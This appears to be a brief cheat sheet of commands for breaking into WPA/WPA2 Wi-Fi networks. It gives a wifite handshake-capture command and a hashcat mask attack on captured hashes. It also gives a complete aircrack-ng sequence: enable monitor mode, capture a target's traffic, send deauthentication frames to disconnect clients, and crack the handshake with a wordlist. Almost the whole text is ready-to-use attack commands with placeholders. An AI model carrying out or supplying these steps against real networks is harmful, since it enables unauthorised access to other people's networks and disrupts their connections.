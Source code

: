 # Automated

sudo wifite -mac --skip-crack --clients-only -wpa --no-wps --no-pmkid

https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2

https://hashcat.net/cap2hccapx

hashcat.exe -m 22000 HASHFILE -a 3 ?d?d?d?d?d?d?d?d?d

# The old way

```bash
airmon-ng check
airmon-ng check kill
airmon-ng start INTERFACE
airodump-ng INTERFACE
airodump-ng INTERFACE --bssid APMAC -c CHANNEL -w CAPFILE
aireplay-ng INTERFACE --deauth 20 -a APMAC -h CLIENTMAC
aircrack-ng -w WORDLIST CAPFILE
airmon-ng stop INTERFACE
systemctl start network-manager
```

